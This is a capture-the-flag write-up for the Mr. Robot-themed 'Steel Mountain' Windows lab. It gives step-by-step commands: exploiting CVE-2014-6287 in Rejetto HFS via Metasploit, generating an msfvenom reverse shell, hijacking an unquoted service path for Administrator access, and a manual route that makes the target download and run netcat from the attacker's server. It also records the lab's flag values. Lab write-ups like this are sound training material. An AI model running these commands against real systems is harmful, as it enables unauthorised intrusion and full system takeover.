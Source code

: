 # Steel Mountain 

> Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.

<br>

### Process

1. Introduction:
   - goto web site -> look at filename of image of employee
   - employee of the month = **Bill Harper**
2. Initial Access:
   - port scanning the machine with nmap:
     - `nmap -T4 10.10.122.82`
     - other port running a web server = **8080**
   - version scanning the web server with nmap:
     - `nmap -sV -p8080 10.10.122.82` + lookup name of file server
     - file server running = **rejetto http file server**
   - search exploit.db for CVE:
     - found CVE number = **2014-6287**
   - use Metasploit to gain initial shell:
     - `msfconsole` -> `search 2014-6287` -> `use 0` -> `options`
     - `set RHOST 10.10.122.82` -> `set RPORT 8080` -> `run`
   - find user flag:
     - `search -f user.txt` -> `cd /users/bill/desktop` -> `cat user.txt`
     - user flag = **b04763b6fcf51fcd7c13abc7db4fd365**
3. Privilege escalation:
   - upload a powershell privilege escalation script [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) to machine (assuming it is downloaded and in current directory on attack machine):
     - `upload PowerUp.ps1`
   - execute powershell script using Meterpreter:
     - get a powershell shell: `load powershell` -> `powershell_shell`
     - load script: `. .\PowerUp.ps`
     - check fo common Windows privilege escalation vectors: `Invoke-AllChecks`
   - check for *unquoted serivce path* vulnerability with *CanRestart* option set to true:
     - found service = **AdvancedSystemCareService9**
   - > CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program
    - use msfvenom to generate a reverse shell Windows executable with the same name as the vulnerable service and upload it to target:
      - attack box: `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.57.183 LPORT=1234 -e x86/shikata_ga_nai -f exe -o ASCService.exe`
      - target box: `upload ASCService.exe`
    - start Metasploit multi-handler to listen and recieve reverse shell (in another tmux window):
      - `use multi/handler` -> `set LHOST 10.10.57.183` -> `set LPORT 1234` -> `run`
      - background current meterpreter shell and setup a new multi-handler session 
    - go back to original meterpreter session, get a Windows shell, and stop the AdvancedSystemCareService9 service:
      - `sessions 1` -> `shell` -> `sc stop AdvancedSystemCareService9`
    - copy the payload to the location of the vulnerable service (replacing the service) while in Windows shell:
      - `copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"` -> [yes]
    - restart the service:
      - `sc start AdvancedSystemCareService9`
     - drop back to metasploit mulit/handler tmux window to then interact with the reverse shell
     - find root flag:
       - `cd \Users\Adminstrator\Desktop` -> `type root.txt`
       - root flag = **9af5f314f57607c00fd09803a587db80**
4. Access and Escalation Without Metasploit:
   - this time using this [exploit](https://www.exploit-db.com/exploits/39161):
   - download exploit, make changes to local IP address/port, and save as "exploit.py"
   - get at static Windows x86 netcat binary (from [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe)) and save that as "nc.exe"
   - exploit:
     - start python webserver (in same directory as "nc.exe"): `python3 -m http.server 80`
     - start netcat listener: `nc -lvnp 1234`
     - run exploit: `python2 exploit.py 10.10.122.82 8080`
     - the exploit will run, download the "nc.exe" file which from your local web server, and then execute it which will connect back to your netcat listner and you'll have a shell on the target machine
   - pull winPEAS to the system using powershell -c command:
     - `powershell -c "Invoke-WebRequest -OutFile winPEAS.exe http://10.10.57.183/winPEASx64.exe"`
     - keep "winPEASx64.exe" in same directory as other files for convienence
   - run winPEAS: `winPEAS.exe`
     - it provides you with the name of the vulnerable service running (AdvancedSystemCareService9) and it's location
     - can manually find out the service name with **powershell -c "Get-Service"**, which lists services
   - now you can privilege escalate as before